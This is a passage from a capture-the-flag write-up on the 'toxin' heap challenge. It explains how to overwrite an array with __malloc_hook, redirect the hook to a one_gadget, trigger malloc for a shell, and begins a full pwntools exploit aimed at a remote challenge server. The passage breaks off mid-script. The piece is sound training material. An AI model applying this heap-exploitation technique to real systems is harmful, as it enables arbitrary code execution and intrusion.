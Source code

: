 
Now. we will craft a payload which will overwrite the `toxinfreed` as well as the index of the first chunk from the `toxins` with `__malloc_hook` as `toxinsfreed` variable and the `toxins` are stored contogously.

```py
payload = b"\x00"*35
payload += p64(libc.symbols['__malloc_hook'])
payload += p64(0)*3
payload += p64(0x70)
alloc(2, 0x70, payload)
```

![toxins_array](/img/pwning/toxin/malloc_hook.png)

We overwrite the `toxins` array with the 0th index being the pointer to the `__malloc_hook`.

Now, we request for the `edit` function with index `0` that, since overwritten by the `__malloc_hook`, it'll just return that pointer and we overwrite it with the `one_gadget` address.

```
edit(0, p64(libc.address + 0x10a38c))
```

![one_gadget)(/one_gadget.png)

Now, since we overwritten with `__malloc_hook` with the `one_gadget`, we request for one more chunk, which in turn calls `malloc` from `add` function and eventually calling the `__malloc_hook`:-

```py
p.sendlineafter("> ", "1")
p.sendlineafter(": ", str(0x70))
p.sendlineafter(": ", "1")
p.interactive() 
```

Running the exploit:-

![shell](/img/pwning/toxin/shell.png)

Then, running it against the server, we get the flag:-

![](/img/pwning/toxin/flag.png)

# Exploit

The full exploit:-

```asm
from pwn import *

p = remote("206.189.18.188", 32695)
elf = ELF("toxin")
libc = elf.libc

def alloc(idx, size, content):
	p.sendlineafter("> ", "1")
	p.sendlineafter(": ", str(size))
	p.sendlineafter(": ", str(idx))
	p.sendafter(": ", content)

def edit(idx, content):
	p.sendlineafter("> ", "2")
	p.sendlineafter(": ", str(idx))
	p.sendafter(": ", content)

def free(idx):
	p.sendlineafter("> ", "3")
```